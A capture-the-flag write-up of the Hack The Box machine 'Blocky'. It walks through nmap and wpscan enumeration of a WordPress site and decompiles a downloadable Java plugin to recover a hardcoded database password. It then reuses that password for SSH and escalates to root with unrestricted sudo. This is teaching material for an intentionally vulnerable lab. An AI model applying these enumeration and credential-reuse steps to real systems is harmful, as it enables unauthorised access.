


---
search:
  exclude: true
---
# Blocky Writeup

## Introduction :

Blocky was an easy Linux Box that was released back in July 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV 10.10.10.37
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-14 10:54 CET
      Nmap scan report for 10.10.10.37
      Host is up (0.085s latency).
      Not shown: 996 filtered ports
      PORT     STATE  SERVICE VERSION
      21/tcp   open   ftp     ProFTPD 1.3.5a
      22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
      |   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
      |_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
      80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-generator: WordPress 4.8
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: BlockyCraft - Under Construction!
      8192/tcp closed sophos
      Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 19.32 seconds
    
    

## **Part 2 : Getting User Access**

Looking at the results, we see that port 80 is serving the http service, with wordpress. We can therefore use the wordpress scanning command called **wpscan**.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → wpscan --url 10.10.10.37 --enumerate
    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _ |   _  \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
             WordPress Security Scanner by the WPScan Team
                             Version 3.7.4
    
           @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
    _______________________________________________________________
    
    [i] Updating the Database ...
    [i] Update completed.
    
    [+] URL: http://10.10.10.37/
    [+] Started: Thu Nov 14 11:04:57 2019
    
    Interesting Finding(s):
    
    [+] http://10.10.10.37/
     | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
     | Found By: Headers (Passive Detection)
     | Confidence: 100%
    
    [+] http://10.10.10.37/xmlrpc.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
     | References:
     |  - http://codex.wordpress.org/XML-RPC_Pingback_API
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
     |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
    
    [+] http://10.10.10.37/readme.html
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
    
    [+] Upload directory has listing enabled: http://10.10.10.37/wp-content/uploads/
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
    
    [+] http://10.10.10.37/wp-cron.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 60%
     | References:
     |  - https://www.iplocation.net/defend-wordpress-from-ddos
     |  - https://github.com/wpscanteam/wpscan/issues/1299
    
    [+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
     | Found By: Rss Generator (Passive Detection)
     |  - http://10.10.10.37/index.php/feed/, https://wordpress.org/?v=4.8
     |  - http://10.10.10.37/index.php/comments/feed/, https://wordpress.org/?v=4.8
    
    [+] WordPress theme in use: twentyseventeen
     | Location: http://10.10.10.37/wp-content/themes/twentyseventeen/
     | Last Updated: 2019-05-07T00:00:00.000Z
     | Readme: http://10.10.10.37/wp-content/themes/twentyseventeen/README.txt
     | [!] The version is out of date, the latest version is 2.2
     | Style URL: http://10.10.10.37/wp-content/themes/twentyseventeen/style.css?ver=4.8
     | Style Name: Twenty Seventeen
     | Style URI: https://wordpress.org/themes/twentyseventeen/
     | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
     | Author: the WordPress team
     | Author URI: https://wordpress.org/
     |
     | Found By: Css Style In Homepage (Passive Detection)
     |
     | Version: 1.3 (80% confidence)
     | Found By: Style (Passive Detection)
     |  - http://10.10.10.37/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'
    
    [+] Enumerating Vulnerable Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
     Checking Known Locations - Time: 00:00:07 <====================================> (316 / 316) 100.00% Time: 00:00:07
    [+] Checking Theme Versions (via Passive and Aggressive Methods)
    
    [i] No themes Found.
    
    [+] Enumerating Timthumbs (via Passive and Aggressive Methods)
     Checking Known Locations - Time: 00:00:53 <==================================> (2575 / 2575) 100.00% Time: 00:00:53
    
    [i] No Timthumbs Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
     Checking Config Backups - Time: 00:00:00 <=======================================> (21 / 21) 100.00% Time: 00:00:00
    
    [i] No Config Backups Found.
    
    [+] Enumerating DB Exports (via Passive and Aggressive Methods)
     Checking DB Exports - Time: 00:00:00 <===========================================> (36 / 36) 100.00% Time: 00:00:00
    
    [i] No DB Exports Found.
    
    [+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
     Brute Forcing Attachment IDs - Time: 00:00:03 <================================> (100 / 100) 100.00% Time: 00:00:03
    
    [i] No Medias Found.
    
    [+] Enumerating Users (via Passive and Aggressive Methods)
     Brute Forcing Author IDs - Time: 00:00:00 <======================================> (10 / 10) 100.00% Time: 00:00:00
    
    [i] User(s) Identified:
    
    [+] notch
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page;=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)
    
    [+] Notch
     | Found By: Rss Generator (Passive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)
    
    [!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up.
    
    [+] Finished: Thu Nov 14 11:06:14 2019
    [+] Requests Done: 3119
    [+] Cached Requests: 10
    [+] Data Sent: 768.632 KB
    [+] Data Received: 14.199 MB
    [+] Memory used: 224.906 MB
    [+] Elapsed time: 00:01:17
    

We see that we have an username to work with, named **notch** We will now run the gobuster command to see if we are able to enumerate interesting directories.
    
    
    λ nihilist [ 10.10.14.48/23 ] [~] → gobuster -e -u 10.10.10.37 -w wordlist.txt
    

Looking at the results we see that gobuster found the directory named **/plugins** We now browse to the folder gobuster found to see what we can enumerate there.

We will now download the files that are available for us here, in order to examine them  First of all we'll open up the BlockyCore.jar using an archive explorer and then extract the blockycore.class located inside /com/myfirstplugin/ 

Once the .class file is extracted all we need to do to print out it's contents is to use the **jad** command. 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Blocky] → jad BlockyCore.class
      Parsing BlockyCore.class...The class file version is 52.0 (only 45.3, 46.0 and 47.0 are supported)
      Generating BlockyCore.jad
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Blocky] → cat BlockyCore.jad
      // Decompiled by Jad v1.5.8e. Copyright 2001 Pavel Kouznetsov.
      // Jad home page: http://www.geocities.com/kpdus/jad.html
      // Decompiler options: packimports(3)
      // Source File Name:   BlockyCore.java
    
      package com.myfirstplugin;
    
    
      public class BlockyCore
      {
    
          public BlockyCore()
          {
              sqlHost = "localhost";
              sqlUser = "root";
              sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
          }
    
          public void onServerStart()
          {
          }
    
          public void onServerStop()
          {
          }
    
          public void onPlayerJoin()
          {
              sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
          }
    
          public void sendMessage(String s, String s1)
          {
          }
    
          public String sqlHost;
          public String sqlUser;
          public String sqlPass;
      }
    

We now have credentials to work with : **notch : 8YsqfCTnvxAUeduzjNSXe22** Our previous nmap scan returned that 22 ssh port is opened.

## **Part 3 : Getting Root Access**

We should be able to ssh into the machine with the aforementionned credentials.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → ssh notch@10.10.10.37
    notch@10.10.10.37 password:
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    7 packages can be updated.
    7 updates are security updates.
    
    
    Last login: Sun Dec 24 09:34:35 2017
    notch@Blocky:~$ whoami
    notch
    notch@Blocky:~$ uname -a
    Linux Blocky 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
    notch@Blocky:~$ cat /home/notch/user.txt
    59XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

We have been able to get our user flag !  now we just need to escalate privileges, typing sudo -l shows us that we are able to type the command **sudo su** to spawn a root shell. 
    
    
      notch@Blocky:~$ sudo -l
      [sudo] password for notch:
      Matching Defaults entries for notch on Blocky:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
      User notch may run the following commands on Blocky:
          (ALL : ALL) ALL
      notch@Blocky:~$ cat /root/root.txt
      cat: /root/root.txt: Permission denied
      notch@Blocky:~$ sudo su
      root@Blocky:/home/notch# cat /root/root.txt
      0aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print the root flag thanks to a simple sudo -l command. 

## **Conclusion**

Here we can see the progress graph :

